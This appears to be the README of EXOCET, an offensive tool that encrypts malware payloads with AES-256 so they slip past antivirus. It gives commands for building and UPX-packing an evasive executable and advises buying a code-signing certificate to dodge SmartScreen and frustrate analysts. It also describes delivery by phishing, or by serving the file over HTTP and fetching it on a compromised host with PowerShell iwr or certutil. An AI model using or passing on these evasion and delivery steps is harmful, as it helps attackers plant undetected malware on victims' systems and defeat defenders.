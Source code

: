 # EXOCET - AV-evading, undetectable, payload delivery tool
<b>Chang Tan</b>
<br>
<b>AWS Certified Cloud Practitioner and Solutions Architect Associate</b>
<br>
changtan@listerunlimited.com
<br>

<br>

# Updated EXOCET Usage


Make sure you pack your payloads to avoid any leaks of the crypter's key and further frustrate malware analysts. A commercial top-of-the-line packer like Themida is NOT required. It would raise further suspicion without something like a code-signing certificate. Without code-signing certificate, on Windows systems, SmartScreen is automatically triggered. This is the rule for all potentially unwanted programs or "PUPs", meaning all malware payloads, beacons, geacons, remote access trojans, etc., requires a code signing certificate. Your money is better spent on buying a code-signing cert than some top-of-the-line packer.

```
go run exocet.go malware.exe outputmalware.go
env GOOS=windows GOARCH=amd64 build -ldflags "-s -w" outputmalware.go
upx --best outputmalware.exe
```

Then drop the payload on your target. Using something like a phishing email, link, or if you already have shell access, deliver it using something like hosting your own server locally 
`python -m http.server 80'` 
and then on the machine you are compromising, run as a powershell prompt 
`iwr -Uri "http://yourip/outputmalware.exe" -OutFile "NotMalware.exe"`
or 
`certutil.exe -urlcache -split -f http://yourip/outputmalware.exe`
and then execute with `outputmalware.exe`


<br>

![](https://upload.wikimedia.org/wikipedia/en/4/46/Exocet_impact.jpg)
<br>
EXOCET is superior to Metasploit's "Evasive Payloads" modules as EXOCET uses AES-256 in GCM Mode (Galois/Counter Mode). Metasploit's Evasion Payloads uses a easy to detect RC4 encryption. While RC4 can decrypt faster, AES-256 is much more difficult to ascertain the intent of the malware.
![](https://raw.githubusercontent.com/tanc7/EXOCET-AV-Evasion/master/media/nodetections.png)

However, it is possible to use Metasploit to build a Evasive Payload, and then chain that with EXOCET. So EXOCET will decrypt via AES-256, and then the Metasploit Evasive Payload then decrypts itself from RC4.

Much like my previous project, DarkLordObama, this toolkit is designed to be a delivery/launch vehicle, much like Veil-Evasion does. 
